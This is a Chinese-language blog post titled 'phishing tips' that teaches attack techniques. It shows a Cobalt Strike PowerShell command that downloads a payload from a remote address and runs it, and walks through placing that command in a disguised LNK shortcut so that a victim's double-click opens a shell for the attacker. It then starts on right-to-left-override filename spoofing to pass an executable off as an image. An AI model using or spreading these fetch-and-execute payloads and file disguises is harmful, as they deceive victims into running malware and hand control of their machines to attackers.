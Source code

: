 ```yaml
---
layout:  post    # 使用的布局（不需要改）
title:  钓鱼小技巧   # 标题 
subtitle:     #副标题
date:  2021-01-13  # 时间
author:  yanmie    # 作者
header-img: img/.jpg ##标签这篇文章标题背景图片
catalog: true      # 是否归档
tags:        
    - 网络安全


---
```


## 一、钓鱼小技巧

#### 1. LNK 快捷方式

lnk文件是用于指向其他文件的一种文件。这些文件通常称为快捷方式文件，通常它以快捷方式放在硬盘上，以方便使用者快速的调用。
 lnk钓鱼主要将图标伪装成正常图标，但是目标会执行shell命令。

cs演示：

![](https://s3.ax1x.com/2021/01/10/slGMeU.png)

![](https://s3.ax1x.com/2021/01/10/slGNy6.png)

得到

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.2.158:80/a'))"
```

然后新建快捷方式，将上述语句填入

[![slJmhd.png](https://s3.ax1x.com/2021/01/10/slJmhd.png)](https://imgchr.com/i/slJmhd)

下一步，然后自己命名一下，点击完成。

当受害者双击之后就会自动执行我们的恶意payload,从目标网站下载并执行。

最终被得到 shell。

[![slY12R.md.png](https://s3.ax1x.com/2021/01/10/slY12R.md.png)](https://imgchr.com/i/slY12R)

#### 2. 文件名反转

RLO，即Right-to-Left Override，我们可以在⽂件名中插⼊此类unicode字符，来达到⽂件名反转的效果。

以 `cmd.exe` 来举例，

将其重命名为 `cmdgpj.exe` ,然后在 cmd 与 g 之间右键，看图操作

[![slYhGj.md.png](https://s3.ax1x.com/2021/01/10/slYhGj.md.png)](https://imgchr.com/i/slYhGj)
